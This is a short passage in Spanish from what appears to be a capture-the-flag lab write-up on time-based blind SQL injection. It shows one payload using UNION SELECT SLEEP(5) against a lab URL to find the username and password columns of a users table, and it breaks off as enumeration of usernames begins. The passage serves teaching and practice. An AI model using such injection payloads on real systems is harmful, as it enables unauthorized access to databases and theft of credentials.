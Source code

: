 Así que tras intentar descubrir cada columna encontramos 3:

- **id**
- **username**
- **password**

<br>

![pass1](/assets/images/SQLi/pass1.png)

`https://website.thm/analytics?referrer=admin5' UNION SELECT SLEEP(5),2 FROM information_schema.columns WHERE table_schema = 'sqli_four' AND table_name = 'users' AND column_name LIKE 'username%' ; --`

<br>

Vemos que ya encontramos las columnas que nos interesan, en este caso nos llaman la atención **username** y **password**, por lo que procederemos a enumerar su contenido, empezando por el **username**:
